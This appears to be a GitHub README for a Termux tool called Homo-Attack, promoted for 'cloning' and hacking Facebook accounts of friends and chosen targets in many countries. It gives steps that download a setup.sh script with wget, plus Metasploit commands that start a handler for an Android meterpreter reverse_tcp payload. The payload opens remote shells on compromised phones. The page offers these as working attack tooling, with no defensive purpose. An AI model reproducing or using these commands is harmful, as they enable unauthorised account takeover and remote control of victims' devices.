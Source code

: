 ## AuThor Hacker WaSi
<h2>Hi, I'm WaSim AkrAm! <img src="https://media.giphy.com/media/12oufCB0MyZ1Go/giphy.gif" width="50"></h2>
<img align='right' src="https://media.giphy.com/media/M9gbBd9nbDrOTu1Mqx/giphy.gif" width="230">
<br/>
<a href="https://twitter.com">
  <img align="left" alt="Hackerwasii| Twitter" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@v3/icons/twitter.svg" />
</a>
<a href="https://www.instagram.com/__empty254__/">
  <img align="left" alt="Instagram" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@v3/icons/instagram.svg" />
</a>
<a href="https://github.com/evildevill">
  <img align="left" alt="GitHub" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.5.0/icons/github.svg" />
</a>
<a href="https://wa.me/+923137119351">
  <img align="left" alt="whatsapp" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.5.0/icons/whatsapp.svg" />
</a>
<br/>
<br/>
#### Thank You-🙏🏼

<p>
<img src="https://visitor-badge.laobi.icu/badge?page_id=HackerWaSi" alt="visitor badge"/>
</p>


## Version 2.0

## AbOut tHis ToOl 
<p>
This Tool is Specially made for Facebook Accounts cloning.<br>
you can clone your friend list accounts , targets accounts.. 
<br>
if you don,t know how to use this tool so you can visit our <a href="https://hackerwasii.blogspot.com">WeBSite</a> & read complete tutorial
<br>
you can also clone those accounts who's isnt add in your frndlist.
<br>
By using this tool you can hack unlimited accounts of diffrent countries <br>
like

* PAKISTAN
* india
* USA   
* Germany
* France 
* Bangladash
* Dubai
* indonasia
* Spain
* Poland

## Etc much more...
</p>

## Installation On Termux
```
pkg install wget -y
```

```
wget https://github.com/evildevill/Homo-Attack/raw/master/setup.sh
```
## Metasploit Commands
》》Requirements:-
```
1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor
```
## installation
```
1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit
```


